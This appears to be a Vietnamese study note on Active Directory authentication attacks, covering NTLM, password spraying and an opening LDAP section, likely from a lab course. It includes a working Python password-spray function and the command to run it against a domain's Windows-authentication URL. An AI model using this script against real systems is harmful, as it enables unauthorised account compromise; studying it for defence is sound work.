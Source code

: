NTLM đứng giữa client và server, xác thực thay cho người dùng => ngăn chặn ứng dụng lưu thông tin, chỉ DC mới lưu


![image](https://hackmd.io/_uploads/H1ddektzkl.png)


__Brute-force Login Attacks__

Thay vì brute-force nhiều mật khẩu cho 1 tài khoản (cấu hình khoá tài khoản), thì dùng 1 mật khẩu cho nhiều tài khoản. 

![image](https://hackmd.io/_uploads/Hy_oMkKMJg.png)


```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

__Password Spraying__


```cmd
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

Trong đó:
- fqdn: tên domain đầy đủ
- attackurl: url mà hỗ trợ window authentication

![image](https://hackmd.io/_uploads/S1RzNkYM1l.png)


### LDAP Bind Credentials
---

__LDAP__

1 phương thức để xác thực trong AD là Lightweight Directory Access Protocol (LDAP) authentication. LDAP authentication tương tự NTLM authentication. Với LDAP thì ứng dụng trực tiếp xác minh thông tin xác thực của user.
